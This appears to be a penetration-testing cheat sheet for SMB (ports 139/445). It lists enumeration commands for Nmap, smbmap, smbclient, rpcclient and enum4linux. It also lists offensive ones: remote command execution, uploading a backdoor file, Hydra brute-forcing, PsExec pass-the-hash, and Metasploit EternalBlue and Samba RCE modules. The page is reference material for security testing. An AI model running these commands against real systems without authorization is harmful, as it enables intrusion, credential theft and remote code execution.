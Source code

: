 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 139,445 - SMB

## Nmap Scripts

The example command for enumerating _<mark style="color:green;">Server Message Block</mark>_ (SMB) with Nmap is here.

```bash
# version/dialect
sudo nmap -p445 --script=smb-protocols $IP

# netbios of SMB
sudo nmap -p445 --script=smb-os-discovery $IP

# security mode
sudo nmap -p445 --script=smb-security-mode $IP

# smb shares
sudo nmap -p445 --script=smb-enum-shares $IP

# Check EternalBlue vulnerability
sudo nmap -p445 --script=smb-vuln-ms17-010 $IP

# Enum login user session
sudo nmap -p445 --script=smb-enum-sessions $IP

# Enum login user session with AUTHENTICATION
sudo nmap -p445 --script=smb-enum-sessions --script-args smbusername=administrator,smbpassword=password123 $IP

# Enum user with AUTHENTICATION
sudo nmap -p445 --script=smb-enum-users --script-args smbusername=administrator,smbpassword=password123 $IP

# Enum groups with AUTHENTICATION
sudo nmap -p445 --script=smb-enum-groups --script-args smbusername=administrator,smbpassword=password123 $IP

# Enum SMB shares with AUTHENTICATION
sudo nmap -p445 --script=smb-enum-shares --script-args smbusername=administrator,smbpassword=password123 $IP
```

## Smbmap

is a command line utility made from scripting language (python). Here are some examples of commands for _<mark style="color:green;">enumerate/interact/connect</mark>_ into SMB. It is also _often used for enumerating permissions on shares_.

```bash
# Enum with NULL sessions / checking shares permissions
smbmap -u guest -p "" -d . -H $IP

# Enum with AUTHENTICATION / checking shares permissions
smbmap -u "administrator" -p "password123" -H $IP

# List all shares with AUTHENTICATION
smbmap -u "administrator" -p "password123" -H $IP -L

# List all items in shares with AUTHENTICATION
smbmap -u "administrator" -p "password123" -H $IP -r 'C$'

# Execute command with AUTHENTICATION
smbmap -u "administrator" -p "password123" -H $IP -x 'ipconfig'

# Upload file with AUTHENTICATION
smbmap -u "administrator" -p "password123" -H $IP --upload '/root/backdoor' 'C$\backdoor'

# Download file with AUTHENTICATION
smbmap -u "administrator" -p "password123" -H $IP --download 'C$\flag.txt'
```

## Smbclient

is a command line utility that came with Linux by default. Here are some examples of commands for listing shares.

```bash
# List all shares
smbclient -L $IP -N

# Connect to shares
smbclient //$IP/<share> -N

# List all shares with AUTHENTICATION
smbclient -L \\\\$IP\\ -U administrator

# Connect to shares with AUTHENTICATION
smbclient \\\\$IP\\<share> -U administrator
```

## CrackMapExec

is a powerful tool dubbed as _<mark style="color:green;">swiss army knife</mark>_ for pentesting Windows/Active Directory environments.

```bash
# Get Windows version
crackmapexec smb $IP

# Listing shares/permissions
crackmapexec smb $IP --shares -u "" -p ""

# Enum user for ASREPRoast attack
crackmapexec smb $IP -u /worlists/users.txt -p "" -k
```

## Rpcclient

is a command line tool initially developed to test _<mark style="color:green;">MS-RPC</mark>_ functionality in Samba itself.

```bash
rpcclient -U "" -N $IP                 # null sessions
rpcclient -U admin%passwd123 $IP       # auth sessions
    > srvinfo                   # enum os version
    > enumdomusers              # enum all users
    > lookupnames admin         # enum user 
    > enumdomgroups             # enum groups
    > netshareenumall           # listing all shares
    > netsharegetinfo <share>   # more info about the share    
```

## Enum4Linux

is a command line tool that is installed by default in Kali Linux. It is used for enumerating information from Windows and Samba systems.

```bash
# Enum all things
enum4linux -a $IP

# Enum os information
enum4linux -o $IP

# Enum users
enum4linux -U $IP

# Enum shares 
enum4linux -S $IP

# Enum groups
enum4linux -G $IP

# Cheking the printer presents
enum4linux -i $IP

# Enum all things with AUTHENTICATION
enum4linux -a -u "administrator" -p "password123" $IP

# Enum users SID with AUTHENTICATION
enum4linux -r -u "administrator" -p "password123" $IP
```

## Nmblookup

is designed to make use of queries for the _<mark style="color:green;">NetBIOS</mark>_ names and then map them to their subsequent IP address in a network. All queries are done over _<mark style="color:green;">UDP</mark>_.

```bash
# Initial connection
nmblookup -A $IP

# For unique names: (code number)
00: Workstation Service (workstation name)
03: Windows Messenger service
06: Remote Access Service
20: File Service (also called Host Record)
21: Remote Access Service client
1B: Domain Master Browser – Primary Domain Controller for a domain
1D: Master Browser

# For group names: (code number)
00: Workstation Service (workgroup/domain name)
1C: Domain Controllers for a domain
1E: Browser Service Elections
```

## Hydra

is a brute force tool that is installed in Kali Linux by default. It can brute force the password/user's file list in several protocols.

```bash
hydra -l "admin" -P /wordlists/passwords.txt $IP smb
```

## Impacket-PsExec.py & PsExec.exe

is a lightweight telnet replacement developed by `Microsoft` that _<mark style="color:green;">allows to execute processes</mark>_ on remote Windows systems using any user's credentials. _<mark style="color:green;">Psexec authentication is performed via SMB</mark>_.

```bash
# Login with AUTHENTICATION (prompt password)
impacket-psexec.py Administrator@$IP

# Login with HASH
impacket-psexec.py Administrator@$IP -hashes <hash>
impacket-psexec.py example.local/Administrator@$IP -hashes <hash>
```

## MSFconsole

is a framework that holds many exploits, backdoors, scanners, etc. This is also known as _<mark style="color:green;">Metasploit</mark>_, by default, it is installed on Kali Linux.

```bash
auxiliary/scanner/smb/smb_version
auxiliary/scanner/smb/smb2
auxiliary/scanner/smb/smb_enumusers
auxiliary/scanner/smb/smb_enumshares
auxiliary/scanner/smb/smb_login
auxiliary/scanner/smb/pipe_auditor
exploit/windows/smb/psexec

# Scan the target for vulnerability
auxiliary/scanner/smb/smb_ms17_010

# Exploit the eternalblue
exploit/windows/smb/smb_ms17_010_eternalblue

# Exploiting samba v3.5.0 (RCE)
exploit/linux/samba/is_known_pipename
```

